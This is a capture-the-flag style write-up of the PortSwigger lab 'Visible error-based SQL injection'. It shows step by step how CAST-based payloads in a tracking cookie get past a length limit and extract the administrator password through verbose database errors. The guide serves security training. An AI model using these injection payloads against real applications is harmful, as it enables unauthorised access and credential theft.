

# Lab: Visible error-based SQL injection

**Platform:** PortSwigger Web Security Academy  
**Category:** SQL Injection  
**Difficulty:** Practitioner

## 🎯 Objective
The application contains a SQL injection vulnerability in the tracking cookie. While query results are not directly returned in the HTML, the application echoes verbose database errors to the screen. The goal is to use type conversion errors to leak the `administrator` password.

## 🕵️‍♂️ Analysis
During the initial discovery phase, appending a single quote (`'`) to the `TrackingId` cookie resulted in an `Unterminated string literal` error, proving that verbose database errors are enabled. 

To exfiltrate data, I can use an error-based technique called **Type Conversion** or converting data types. By forcing the database to cast a string value (like a password) into an integer, the database will throw an `invalid input syntax` error and helpfully include the string it failed to convert inside the error message.

## 🚀 Payload & Execution

### Step 1: Navigating Input Limits
My initial payload (`TrackingId=HZJktmGWrn4AO4fe' AND 1=CAST((SELECT username FROM users) AS int)--`) resulted in a truncation error. The server cut off the payload before the `--` comment, indicating a maximum length limit on the cookie.
* **Bypass:** I removed the original tracking ID string entirely to ensure the payload fit within the character limits: `TrackingId=' AND 1=CAST((SELECT username FROM users) AS int)--`

### Step 2: Fixing the Scalar Subquery
Executing the shortened payload resulted in a new error: `more than one row returned by a subquery`. The `CAST` function requires a single value, but `SELECT username` was returning all users.
* **Bypass:** I appended `LIMIT 1` to ensure the subquery only returned the first row (the administrator).
We also can use `TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--` to verify the first row is `administrator`.

### Step 3: Data Exfiltration
I updated the subquery to target the `password` column instead of the username, passing the single string value into the `CAST` function.
* **Payload:** `TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--`
* **Result:** The database attempted to cast the password string to an integer, triggering the following verbose error:
  `ERROR: invalid input syntax for type integer: "6wanj5j9wwtqbvvmw211"`

Logging in with the leaked password solved the lab.

## 📸 Proof of Concept

